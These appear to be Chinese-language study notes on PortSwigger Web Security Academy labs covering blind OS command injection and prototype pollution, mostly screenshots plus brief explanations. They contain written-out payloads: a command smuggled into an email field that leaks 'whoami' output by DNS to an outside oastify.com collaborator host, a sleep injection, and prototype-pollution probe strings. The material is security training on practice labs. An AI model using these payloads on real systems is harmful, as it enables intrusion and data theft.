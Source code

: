 ;sleep# #注释掉后面



## 96.实验室：使用输出重定向进行盲操作系统命令注入

![image-20250723212010499](portswigger.assets/image-20250723212010499.png)

![image-20250723212929109](portswigger.assets/image-20250723212929109.png)

写入文件1.txt 再打开网站中其他图片看到检索的网址是https://0a5b004c03c4c23f85e7d58e0097008c.web-security-academy.net/image?filename=7.jpg

查看/image?filename=1.txt

![image-20250723213022259](portswigger.assets/image-20250723213022259.png)



## 97.实验室：通过带外交互进行盲操作系统命令注入

![image-20250723213200240](portswigger.assets/image-20250723213200240.png)

​	![image-20250723215643472](portswigger.assets/image-20250723215643472.png)

![image-20250723215647974](portswigger.assets/image-20250723215647974.png)



## 98.实验室：盲操作系统命令注入与带外数据泄露

97已经预判了

aaa%40qq.cn;/usr/bin/nslookup `whoami`.4pu740ogzcylrqbehfmdnlflqcw4ku8j.oastify.com #

# 13**原型污染** 

![image-20250724004408844](portswigger.assets/image-20250724004408844.png)

`username`对象可以访问 和 的属性和`String.prototype`方法`Object.prototype`。，因此这条链最终会回到顶层的`Object.prototype`，其原型就是`null`。

成功利用原型污染需要以下关键要素：

- 原型污染源——这是任何使您能够用任意属性毒害原型对象的输入。

- 接收器 - 换句话说，就是能够执行任意代码的 JavaScript 函数或 DOM 元素。

- 可利用的小工具 - 这是任何未经适当过滤或清理就传递到接收器的属性。

  ```
  __proto__.[]=  constructor[prototype][polluted]=yes
  ```

  
